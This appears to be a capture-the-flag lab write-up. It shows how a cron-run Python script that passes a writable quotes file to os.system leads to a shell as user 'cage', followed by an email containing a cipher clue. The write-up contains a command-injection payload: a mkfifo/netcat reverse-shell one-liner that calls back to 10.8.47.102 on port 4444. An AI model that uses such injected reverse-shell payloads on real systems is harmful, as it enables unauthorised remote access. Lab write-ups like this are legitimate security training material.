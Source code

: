 <img width="872" height="182" alt="image" src="https://github.com/user-attachments/assets/6bb8d608-d652-4486-ac9b-5672e291101d" />

<img width="1065" height="498" alt="image" src="https://github.com/user-attachments/assets/af6fd293-3e7c-4b68-a779-c6447ed88bce" />

## Found the script

```python
#!/usr/bin/env python

#Copyright Weston 2k20 (Dad couldnt write this with all the time in the world!)
import os
import random

lines = open("/opt/.dads_scripts/.files/.quotes").read().splitlines()
quote = random.choice(lines)
os.system("wall " + quote)


```

> ## but we don't have permission to write on it

> # check **`.files`** found

<img width="702" height="178" alt="image" src="https://github.com/user-attachments/assets/497d0d48-cc96-4655-a6a5-be435958f409" />

## ahha i found that we have **`write permission`** on `.quotes`

```
echo "hacked;rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.47.102 4444 >/tmp/f" > .quotes
```

<img width="1199" height="192" alt="image" src="https://github.com/user-attachments/assets/adf8b8d0-106a-48ee-9d57-1a2e94a7906c" />

<img width="990" height="233" alt="image" src="https://github.com/user-attachments/assets/ef5f2c22-15a3-46a2-a9cf-8061c6e9726c" />

```
bash -i
```

```
cage@national-treasure:~/email_backup$ cat email_3
cat email_3
From - Cage@nationaltreasure.com
To - Weston@nationaltreasure.com

Hey Son

Buddy, Sean left a note on his desk with some really strange writing on it. I quickly wrote
down what it said. Could you look into it please? I think it could be something to do with his
account on here. I want to know what he's hiding from me... I might need a new agent. Pretty
sure he's out to get me. The note said:

haiinspsyanileph

The guy also seems obsessed with my face lately. He came him wearing a mask of my face...
was rather odd. Imagine wearing his ugly face.... I wouldnt be able to FACE that!! 
hahahahahahahahahahahahahahahaahah get it Weston! FACE THAT!!!! hahahahahahahhaha
ahahahhahaha. Ahhh Face it... he's just odd. 

Regards

The Legend - Cage
```